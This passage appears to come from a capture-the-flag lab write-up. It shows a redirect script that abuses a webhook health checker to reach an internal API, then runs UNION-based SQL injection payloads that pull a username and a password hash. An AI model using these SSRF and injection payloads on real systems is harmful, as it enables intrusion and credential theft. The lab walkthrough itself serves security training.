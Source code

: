 ```bash
➜  health python3 redirect.py 80 "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/null,null,(select/**/name/**/from/**/user),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null--/**/-"
10.129.9.180 - - [23/Aug/2022 16:57:01] "GET / HTTP/1.0" 302 -


## Response
INFO:root:POST request,
Path: /
Headers:
Host: 10.10.14.20:8888
Accept: */*
Content-type: application/json
Content-Length: 825

Body:
{"webhookUrl":"http:\/\/10.10.14.20:8888\/","monitoredUrl":"http:\/\/10.10.14.20\/","health":"up","body":"{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"},{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/\"}],\"ok\":true}","message":"HTTP\/1.0 302 Found","headers":{"Server":"BaseHTTP\/0.6 Python\/3.10.5","Date":"Tue, 23 Aug 2022 14:57:01 GMT","Location":"http:\/\/127.0.0.1:3000\/api\/v1\/users\/search?q=')\/**\/union\/**\/all\/**\/select\/**\/null,null,(select\/**\/name\/**\/from\/**\/user),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null--\/**\/-","Content-Type":"application\/json; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0","Content-Length":"170"}}

10.129.9.180 - - [23/Aug/2022 16:57:01] "POST / HTTP/1.1" 200 -
```

Testing more password and pass both returns `"health":"down"`, but **passwd** returns a hash! 
```bash
➜  health python3 redirect.py 80 "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/null,null,(select/**/passwd/**/from/**/user),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null--/**/-"
10.129.9.180 - - [23/Aug/2022 16:59:01] "GET / HTTP/1.0" 302 -

## Response
Body:
{"webhookUrl":"http:\/\/10.10.14.20:8888\/","monitoredUrl":"http:\/\/10.10.14.20\/","health":"up","body":"{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"},{\"username\":\"66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/\"}],\"ok\":true}","message":"HTTP\/1.0 302 Found","headers":{"Server":"BaseHTTP\/0.6 Python\/3.10.5","Date":"Tue, 23 Aug 2022 14:59:01 GMT","Location":"http:\/\/127.0.0.1:3000\/api\/v1\/users\/search?q=')\/**\/union\/**\/all\/**\/select\/**\/null,null,(select\/**\/passwd\/**\/from\/**\/user),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null--\/**\/-","Content-Type":"application\/json; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0","Content-Length":"263"}}

10.129.9.180 - - [23/Aug/2022 16:59:01] "POST / HTTP/1.1" 200 -
```
